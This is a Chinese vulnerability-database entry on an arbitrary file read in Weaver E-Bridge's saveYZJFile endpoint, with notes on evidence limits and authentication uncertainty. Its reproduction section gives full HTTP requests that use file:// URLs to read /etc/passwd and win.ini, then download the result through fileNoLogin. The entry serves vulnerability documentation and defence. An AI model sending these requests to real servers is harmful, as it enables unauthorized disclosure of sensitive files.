



# 泛微e-bridge saveYZJFile file://读取并公开下载

## 条目说明

- 对象与具体问题：泛微e-bridge；saveYZJFile file://读取并公开下载
- 版本、配置及部署条件：2018–2019多个版本但无精确build；Linux/Windows
- 认证与权限前提：样本含会话，未解释是否需要登录
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整两步saveYZJFile→fileNoLogin与返回id关系明确；Windows/Linux差异有价值
- 需回正文消除认证歧义；不要将fileNoLogin名称等同整链无需会话
- 与其他云桥saveYZJFile报告候选合并，保留平台差异；无原文来源链接

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

一、漏洞简介
------------

泛微云桥（E-Bridge）是上海泛微公司在"互联网+"的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

二、漏洞影响
------------

2018-2019 多个版本。

三、复现过程
------------

#### 服务器Linux：

```http
GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
Host: www.0-sec.org:8088
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionId=abc3I_8E3ZP75a_tnGnrx; testBanCookie=test; JSESSIONID=3kqlxwz8wo04x6cs4dlaovn; EBRIDGE_JSESSIONID=3DD7A4B45D85CAE1AC75F8FF6DEB7556
Connection: close
```




#### windows服务器：

```http
GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt HTTP/1.1
Host: www.0-sec.org
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: EBRIDGE_JSESSIONID=182ED2E3025C11EA9ADDC07761F56DBA
Connection: close
```




#### 读取文件

```http
GET /file/fileNoLogin/35acd348e86549ffb33d7f531350391e HTTP/1.1
Host: www.0-sec.org:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: EBRIDGE_JSESSIONID=BABB53753778ED19791B6F606E5B0D77
Connection: close
```

**35acd348e86549ffb33d7f531350391e为上个包返回的id**


